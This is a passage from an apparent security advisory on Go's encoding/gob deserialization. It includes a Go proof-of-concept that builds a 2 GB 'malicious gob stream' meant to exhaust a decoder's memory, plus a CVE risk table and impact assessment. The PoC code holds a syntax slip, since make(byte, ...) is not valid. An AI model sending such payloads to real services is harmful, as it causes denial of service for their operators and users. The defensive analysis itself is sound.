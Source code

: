     func main() {
    	// Attempt to allocate a very large byte slice (e.g., 2GB).
    	// Adjust size based on target system's expected memory limits.
    	payloadSize := 2 * 1024 * 1024 * 1024 // 2 GB
    	largeData := make(byte, payloadSize)
    	// Optionally fill with some data, though size is the main factor.
    	for i := 0; i < len(largeData); i++ { largeData[i] = byte(i % 256) }
    
    	payload := LargePayload{ID: "big_payload", Data: largeData}
    
    	var buffer bytes.Buffer
    	encoder := gob.NewEncoder(&buffer)
    	if err := encoder.Encode(&payload); err!= nil { // Note: Encode sends a pointer
    		panic(err)
    	}
    	os.Stdout.Write(buffer.Bytes())
    }
    ```
    
    1. **Generate Malicious Gob Stream**: Run this encoder and save its output.
    2. **Vulnerable Decoder Program**: A simple decoder (similar to Section 8) that attempts to decode the stream into the `LargePayload` struct.
- **Expected Result**: The vulnerable decoder program will likely panic with an out-of-memory error during the `decoder.Decode()` call when it attempts to allocate space for the massive `Data` slice. If it doesn't panic immediately, it may become extremely slow or unresponsive due to memory pressure.

These PoCs illustrate the fundamental ways `encoding/gob` can be exploited if input is not constrained. The actual byte values in the gob stream are critical and would be generated by the encoder programs.

## Risk Classification

The risks associated with unsafe `encoding/gob` deserialization are primarily related to Denial of Service (DoS). The classification considers known CVEs and the general potential for resource exhaustion.

**Known `encoding/gob` Vulnerabilities**

| CVE ID | Go Vulnerability ID | Description | Example Affected Go Versions | Primary Impact | CVSS v3.x Score/Severity |
| --- | --- | --- | --- | --- | --- |
| CVE-2024-34156 | GO-2024-3106 | Stack exhaustion in `Decoder.Decode` via deeply nested structures. | `<go1.22.7`, `go1.23.0` before `go1.23.1` | DoS | 7.5 HIGH |
| CVE-2022-30635 | GO-2022-0485 | Uncontrolled recursion in `Decoder.Decode` leading to stack exhaustion. | `<go1.18.3`, `<go1.17.8` (example versions) | DoS | 7.5 HIGH |

*Note: Affected versions are illustrative; always consult official Go vulnerability data for precise version information.*

**Likelihood and Impact Assessment:**

- **Likelihood**:
    - **High**: If `encoding/gob` is used to deserialize data directly from untrusted network sources (e.g., public APIs, client-submitted data) without robust input size limiting (like `io.LimitedReader`) and content validation.
    - **Medium**: If `gob` data is sourced from files or internal systems where an attacker might gain write access or influence the data through other vulnerabilities.
    - **Low**: If `encoding/gob` is exclusively used for communication between tightly controlled, trusted Go services within a secure environment, or for local file storage where file integrity is assured.
- **Impact**:
    - **Availability**: **High**. Successful exploitation of stack exhaustion or memory exhaustion vulnerabilities leads to a DoS, causing the application to crash or become unresponsive.
    - **Integrity**: **Low to Medium**. `encoding/gob` itself, due to Go's type safety, is unlikely to lead to direct memory corruption that alters unrelated data. However, if an attacker can control the *values* within a successfully deserialized (but malicious) gob object, and the application uses this data for critical decisions or operations without further validation, then application-level data integrity can be compromised. This is an indirect impact.